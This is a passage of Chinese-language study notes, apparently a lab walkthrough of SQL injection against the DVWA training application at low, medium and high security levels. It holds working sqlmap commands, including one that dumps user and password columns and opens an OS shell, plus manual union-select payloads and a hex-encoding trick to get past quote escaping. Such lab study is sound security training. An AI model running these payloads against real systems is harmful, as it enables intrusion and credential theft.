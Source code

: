 获取Webshell，输入物理路径，执行dir

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users -C "user,password" --os-shell
```





medium等级

1. 不同之处，页面变化，但仍然是POST提交

2. Tamper Data改包，修改id的值为`1' union select user,password from users--`，Low方法失效

   思考：单引号被转义

   重新确定注入POC
   1" or "1024"="1024
   1' or '1024'='1024
   1 or 1024= 1024

   最终确定poc为1 or 1024= 1024

3. 获取列表名时，再次失败。因为单引号被转义

   ```bash
   1 union select 1,table_name from information_schema.tables where table.schema='dwwa'-- 
   ```

   通过`HEX编码`绕过，重新发包，成功。

   ```bash
   1 union select 1,table_name from information_schema.tables where table_schema=0x64767761-- 
   ```

   

自动实战

--data 通过--data 发送post请求

```bash
sqlmap.py -u "http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/" --data "id=1&Submit=Submit" -p "id" --cookie "security=low;PHPSESSID=jka3hOrrgm019seusvds4tskk5"
```





high模式

不同之处

页面变化，注入点和显示页，不在同一页面上



手工实战

破解方法和low模式相同


